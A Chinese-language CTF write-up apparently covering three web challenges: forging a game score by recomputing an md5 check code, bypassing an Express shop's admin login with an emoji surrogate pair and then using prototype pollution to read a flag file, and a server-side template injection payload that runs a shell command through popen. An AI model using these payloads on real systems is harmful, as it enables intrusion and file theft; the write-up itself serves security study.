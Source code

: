 ## web

### dino3d

**关键代码**

```java

sn(e, t) {
        e && t && fetch("/check.php", {
            method: "POST",
            headers: {
                "Content-type": "application/x-www-form-urlencoded; charset=UTF-8"
            },
            body: "score=" + parseInt(e).toString() + "&checkCode=" + md5(parseInt(e).toString() + t) + "&tm=" + (+new Date).toString().substring(0, 10)
        }).then(e => e.text()).then(e => alert(e))
    }
```

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled.png)

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%201.png)

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%202.png)

已知checkCode的计算方式

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%203.png)

构造

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%204.png)

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%205.png)

发现还是不对吗，可能是时间戳有校验

生成一个字典，爆破

```python
list = "1234567890"
f = open("num.txt", 'a')
for l1 in list:
		for l2 in list:
			for l3 in list: 
				for l4 in list:
					text = "{}{}{}{}\n".format(l1,l2,l3,l4)
					f.write(text)
f.close()
```

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%206.png)

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%207.png)

也可以直接在浏览1器的控制台用function 定义sn函数，直接sn(1000000,’1000000DASxCBCTF_wElc03e’)

### CBshop

**源码**

```python
const fs = require('fs');
const express = require('express');
const session = require('express-session');
const bodyParse = require('body-parser');
const app = express();
const PORT = process.env.PORT || 80;
const SECRET = process.env.SECRET || "cybershop_challenge_secret"

const adminUser = {
    username: "admin",
    password: "😀admin😀",
    money: 9999
};

app.use(bodyParse.urlencoded({extended: false}));
app.use(express.json());
app.use(session({
    secret: SECRET,  
    saveUninitialized: false,  
    resave: false, 
    cookie: { maxAge: 3600 * 1000 }
}));
app.use(express.static("static"));

app.get('/isLogin', function(req, res) {
    if(req.session.username) {
        return res.json({
            code: 2,
            username: req.session.username,
            money: req.session.money
        });
    }else{
        return res.json({code: 0, msg: 'Please login!'});
    }
});

app.post('/login', function(req, res) {
    let username = req.body.username;
    let password = req.body.password;
    if (typeof username !== 'string' || username === '' || typeof password !== 'string' || password === '') {
        return res.json({code: 4, msg: 'illegal username or password!'})
    }

    if(username === adminUser.username && password === adminUser.password.substring(1,6)) {//only admin need password
        req.session.username = username;
        req.session.money = adminUser.money;
        return res.json({
            code: 1,
            username: username,
            money: req.session.money,
            msg: 'admin login success!'
        });
    }
    req.session.username = username;
    req.session.money = 10;
    return res.json({
        code: 1,
        username: username,
        money: req.session.money,
        msg: `${username} login success!`
    });
});

app.post('/changeUsername', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    let username = req.body.username;
    if (typeof username !== 'string' || username === '') {
        return res.json({code: 4, msg: 'illegal username!'})
    }
    req.session.username = username;
    return res.json({
        code: 2,
        username: username,
        money: req.session.money,
        msg: 'Username change success'
    });
});

//购买商品的接口
function buyApi(user, product) {
    let order = {};
    if(!order[user.username]) {
        order[user.username] = {};
    }

    Object.assign(order[user.username], product);

    if(product.id === 1) {             //buy fakeFlag
        if(user.money >= 10) {
            user.money -= 10;
            Object.assign(order, { msg:  fs.readFileSync('/fakeFlag').toString() });
        }else{
            Object.assign(order,{ msg: "you don't have enough money!" });
        }
    }else if(product.id === 2) {        //buy flag
        if(user.money >= 11 && user.token) {  //do u have token?
            if(JSON.stringify(product).includes("flag")) {
                Object.assign(order,{ msg: "hint: go to 'readFileSync'!!!!" });
            }else{
                user.money -= 11;
                Object.assign(order,{ msg: fs.readFileSync(product.name).toString() });
            }
        }else {
            Object.assign(order,{ msg: "nononono!" });
        }
    }else {
        Object.assign(order,{ code: 0, msg: "no such product!" });
    }
    Object.assign(order, { username: user.username, code: 3, money: user.money });
    return order;
}

app.post('/buy', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    var user = {
        username: req.session.username,
        money: req.session.money
    };
    var order = buyApi(user, req.body);
    req.session.money = user.money;
    res.json(order);
});

app.get('/logout', function(req, res) {
    req.session.destroy();
    return res.json({
        code: 0,
        msg: 'logout success!'
    });
});

app.listen(PORT, () => {console.log(`APP RUN IN ${PORT}`)});
```

一个原型链污染，当时没做出来登录admin后是10块钱，后来看wp😀算两个字符，在密码校验的时候要先手动把符号Unicode一下

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%208.png)

登录的时候校验就是用第2个到第6个字符，既`\uDE00admi` 这样就能登录成功。

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%209.png)

然后将名字改为`__proto__` 再买flag就可以了

## Text Reverser

一个倒过来的ssti,做的时候忘记自己的fuzz字典在哪里了，真猪啊

大概两种做法，一个是直接print出来

`{% print [].**class**.**base**.**subclasses**()[132].**init**.**globals**['popen']('nl /f*').read()%}`

这是可以直接命令执行的

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%2010.png)

还有一种是怪驰的盲注

`{% if ***==""%}1{% endif%}`